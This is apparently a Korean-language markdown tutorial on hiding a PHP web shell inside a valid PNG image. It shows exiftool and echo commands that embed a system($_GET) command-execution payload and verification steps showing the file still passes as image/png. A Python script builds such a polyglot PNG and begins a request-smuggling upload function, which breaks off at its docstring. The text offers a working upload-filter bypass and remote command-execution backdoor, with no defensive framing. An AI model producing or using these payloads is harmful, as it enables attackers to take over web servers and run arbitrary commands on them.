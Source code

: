 ## 🛠️ 방법 3: 실제 이미지 + PHP 코드 (최고 은밀성)

### exiftool 사용

```bash
# 진짜 이미지 준비
wget https://via.placeholder.com/150.png -O image.png

# EXIF Comment에 PHP 코드 삽입
exiftool -Comment='<?php system($_GET["cmd"]); ?>' image.png

# 또는 직접 추가
echo '<?php system($_GET["cmd"]); ?>' >> image.png

# 새 파일로 저장
mv image.png shell.png
```

**검증**:
```bash
# 이미지로 열기 (정상 동작)
display shell.png  # Linux
open shell.png     # Mac
# Windows: 더블클릭

# MIME 타입 확인
file --mime-type shell.png
# 출력: image/png

# 매직 바이트 확인
hexdump -C shell.png | head -1
# 출력: 00000000  89 50 4e 47 0d 0a 1a 0a  ...
```

---

## 🚀 Request Smuggling + PNG 웹쉘

### Python 스크립트

```python
#!/usr/bin/env python3
import socket
import struct

def create_png_webshell_inline():
    """PNG 웹쉘 바이너리 생성"""
    png_sig = b'\x89\x50\x4e\x47\x0d\x0a\x1a\x0a'
    # 1x1 투명 PNG (최소 크기)
    png_data = (
        b'\x00\x00\x00\x0d\x49\x48\x44\x52'
        b'\x00\x00\x00\x01\x00\x00\x00\x01'
        b'\x08\x06\x00\x00\x00\x1f\x15\xc4\x89'
        b'\x00\x00\x00\x0a\x49\x44\x41\x54'
        b'\x78\x9c\x63\x00\x01\x00\x00\x05\x00\x01'
        b'\x0d\x0a\x2d\xb4'
        b'\x00\x00\x00\x00\x49\x45\x4e\x44'
        b'\xae\x42\x60\x82'
    )
    php_code = b'<?php system($_GET["c"]); ?>'
    return png_sig + png_data + php_code

def smuggle_png_webshell(host='localhost', port=9000, filename='shell.png'):
    """PNG 웹쉘을 Smuggling으로 업로드"""
```